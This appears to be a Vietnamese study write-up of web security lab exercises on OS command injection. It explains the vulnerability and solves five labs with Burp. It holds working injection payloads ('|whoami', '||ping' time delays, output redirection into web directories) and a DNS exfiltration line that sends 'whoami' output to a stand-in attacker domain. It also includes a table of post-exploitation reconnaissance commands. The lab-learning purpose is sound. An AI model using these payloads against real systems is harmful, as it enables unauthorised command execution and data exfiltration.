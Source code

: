 # OS command injection

## Khái niệm

> ![img](../asset/os-command-injection-0.png)

## OS command injection là gì?

> OS command injection (hay còn được gọi là shell injection) là 1 vul web cho phép attacker thực thi command trên OS (HĐH) tùy ý trên server và xâm phạm, lấy cắp data.

> Thông thường attacker có thể lợi dụng vul để xâm phạm các thành phần khác, khai thác các mối quan hệ

## Executing arbitrary commands

> Xem xét ứng dụng shopping sau để xem mặt hàng có còn trog shop hay không:
>
> ```
> https://insecure-website.com/stockStatus?productID=381&storeID=29
> ```

> Để cung cấp thông tin mặt hàng, app phải query các system kế thừa nhau. Các chức năng có thể gọi bằng shell:
>
> ```
> stockreport.pl 381 29
> ```

> Vì app không triển khai các biện pháp bảo vệ nên có thể đưa shell vào OS:
>
> ```
> & echo aiwefwlguh &
> ```

> Nó sẽ execute:
>
> ```
> stockreport.pl & echo aiwefwlguh & 29
> ```

> `echo` chỉ là lệnh in cơ bản, đây là cách hữu ích để thử exploit. `&` để phân tách chuỗi trong shell. Kết quả:
>
> ```
> Error - productID was not provided
> aiwefwlguh
> 29: command not found
> ```

> 3 Dòng đầu chứng minh rằng:
>
> `stockreport.pl` không được thực thi là do thiếu đối số
>
> `echo` vẫn được execute
>
> `29` nó là không phải command

### Lab: OS command injection, simple case

> Des: Lab này chứa vul OS command injection trong check sản phẩm. Ứng dụng thực thi một lệnh shell với id của sản phẩm. Để solve hãy thực hiện lệnh `whoami` tại người dùng hiện tại

> Bài này chỉ cần vào check stock rổi thay đổi param thêm `|whoami` là oke:
> ![img](../asset/os-command-injection-1-OS-command-injection-simple-case-0.png)

## Useful commands

> Khi đã exploit được vul thì dưới đây là một số lệnh hữu ích trên nền tảng linux và window:
>
> Purpose of command | Linux | Windows
>
> Name of current user | whoami | whoami
>
> Operating system | uname -a | ver
>
> Network configuration| ifconfig | ipconfig /all
>
> Network connections | netstat -an | netstat -an
>
> Running processes | ps -ef | tasklist

## Blind OS command injection vulnerabilities (Lỗ hổng chèn lệnh hệ điều hành mù)

> Ứng dụng không trả về kết quả trong response, nhưng vẫn có thể exploit bằng chèn mù nhưng cần các kĩ thuật khác nhau

> Xem xét 1 web cho user gửi feedback về web. User gửi phản hồi và email của họ. Sau đó phía server tạo mail và gửi về admin web:
>
> ```
> mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
> ```

## Detecting blind OS command injection using time delays (Phát hiện đưa lệnh mù vào hệ điều hành bằng cách sử dụng độ trễ thời gian)

> Có thể inject lệnh đưa vào sẽ kích hoạt time delays. Lệnh `ping` là 1 cách hiệu quả để thực hiện việc này vì nó cho phép chỉ định số lượng ICMP cần gửi do đó thời gian cần thiết để chạy lệnh:
>
> ```
> & ping -c 10 127.0.0.1 &
> ```

> Lệnh này sẽ khiến ứng dụng ping bộ điều hợp mạng loopback trong 10 giây.

### Lab: Blind OS command injection with time delays

> Des: Chứa vul blind OS command inject tại submit feedback. Chứa thực thi shell, output không được response. Để solve hãy exploit blind os command injection gây là delays 10s

> Dùng burp và chặn sửa request tại param email: `email:x||ping+-c+10+127.0.0.1||` > ![img](../asset/os-command-injection-2-Blind-OS-command-injection-with-time-delays-0.png)

> Đợi 10s sau burp sẽ response và qua web sẽ solve được:
> ![img](../asset/os-command-injection-2-Blind-OS-command-injection-with-time-delays-1.png)

## Exploiting blind OS command injection by redirecting output

> Có thể redirect output từ command được đưa từ trong folder root.
>
> Ví dụ muốn lấy file từ folder : `/var/www/static`:
>
> ```
> & whoami > /var/www/static/whoami.txt &
> ```

> Kí tự `>`gửi result từ command `whoami` đến tệp được chỉ định.

### Lab: Blind OS command injection with output redirection

> Des: Lab này chứa vul OS command injection trong function feedback

> App sẽ thực thi các shell mà user nhập vào.Output không được trả về trong response. Tuy vậy có thể redirect để nắm bắt command :
>
> ```
> /var/www/images/
> ```

> Để solve thì thực hiện command `whoami`

> Ban đầu nhập vào để submit feedback:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-0.png)

> Chặn và sửa field email, ta sẽ viết command `whoami` vào file exploit.txt và lưu trong path `/var/www/images`:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-1.png) ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-2.png)

> Response:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-3.png)

> Về trang chủ và dùng burp để chặn bắt nó:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-4.png) ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-5.png)

> Thấy path của `/image?filename=x` ta send sang repeater và đổi thành file exploit.txt vừa sửa:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-6.png)

> Chuyển sang off và nhận kết quả:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-7.png) ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-8.png)

## Exploiting blind OS command injection using out-of-band (OAST) techniques

> Có thể sử dụng một lệnh được đưa vào sẽ kích hoạt tương tác `out-of-band` với system mà bạn kiểm soát, sử dụng các kỹ thuật `OAST`:
>
> ```
> & nslookup kgji2ohoyw.web-attacker.com &
> ```

> payload sử dụng command `nslookup` để thực hiện tra cứu DNS cho miền được chỉ định. Attacker có thể theo dõi việc tra cứu đang diễn ra, do đó phát hiện rằng lệnh đã được đưa vào thành công

### Lab: Blind OS command injection with out-of-band interaction

> Des: Lab này dính vil OS command injection tại chức năng feedback.
>
> Ứng dụng thực thi shell do user nhập vào. Command thực thi không đồng bộ và k ảnh hưởng tới response của app. Không thể redirect ra vị trí mà mong muốn. Tuy nhiên có thể kích hoạt `out-of-band` để tương tác với miền bên ngoài
>
> Để solve thì exploit và đưa ra DNS cho `Burp Collaborator`

> Bài này chỉ cần chặn lúc submit feedback và sửa field email:
>
> ```
> email=x||nslookup+link||
> ```
>
> ![img](../asset/os-command-injection-4-Blind-OS-command-injection-with-out-of-band-interaction-0.png) ![img](../asset/os-command-injection-4-Blind-OS-command-injection-with-out-of-band-interaction-1.png)

---

> `out-of-band` cũng cung cấp một cách dễ dàng để lọc đầu ra từ các command đưa vào:
>
> ```
> & nslookup `whoami`.kgji2ohoyw.web-attacker.com &
> ```

> Điều này sẽ thực hiện tra cứu DNS với miền của attacker chứa kết quả của lệnh `whoami`:
>
> ```
> wwwuser.kgji2ohoyw.web-attacker.com
> ```

### Lab: Blind OS command injection with out-of-band data exfiltration

> Des: Lab này chứa vul tại feedback. cho phép user thực hiện shell, nhưng không bất đồng bộ và làm ảnh hưởng tới response. Không thể redirect. Tuy nhiên có thể kích hoạt tương tác ngoài băng tần với domain ngoài

> Để solv hãy thực hiện command `whoami` và trích xuất DNS với Burp Collaborator. Nhập tên của user hiện tại

> Bài này chặn submit feedback và sửa field email:
>
> ```
> email=||nslookup+`whoami`.site||
> ```
>
> ![](../asset/os-command-injection-5-Blind-OS-command-injection-with-out-of-band-data-exfiltration-0.png) ![img](../asset/os-command-injection-5-Blind-OS-command-injection-with-out-of-band-data-exfiltration-1.png)
